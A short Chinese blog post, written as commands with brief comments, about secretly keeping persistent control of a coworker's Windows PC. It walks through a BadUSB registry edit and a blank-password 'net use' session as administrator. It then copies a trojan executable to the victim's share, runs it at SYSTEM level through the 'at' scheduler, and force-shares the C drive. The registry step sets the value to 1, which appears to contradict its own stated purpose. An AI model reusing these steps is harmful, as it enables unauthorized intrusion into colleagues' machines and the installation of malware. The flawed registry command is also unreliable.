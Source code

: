 ```yaml
---
layout: mypost
title:  net use 低调持久控制同事电脑的奇怪想法
categories: [Windows,cmd]
---
```


# 1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.

```cmd
cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
```

通过修改这个选项,下一步可以利用 `net use `建立空链接.

# 2 net use

```cmd
net use \\IP "" /user:administrator
#建立空链接
net view #然后查看目标机器的共享了哪些目录?
#假设有可用的共享目录c
copy 木马.exe \\ip\c #拷贝木马文件到目标机器
#使用 at 计划任务命令
net time \\ip #查看目标机器现在的时间
at \\ip 17:55:00 cmd /c "c:\木马.exe" #通过计划任务命令运行拷贝的木马文件

#如果没有可用的共享目录
at \\ip 17:55:00 cmd /c "net share c=c: /grant:administrator,full" #使用计划任务共享一下c盘以便来使用.

ps:
at #使用了 system 权限, meterpreter [get system] 不好用的时候,也可以用来运行木马文件来进行提权.
```

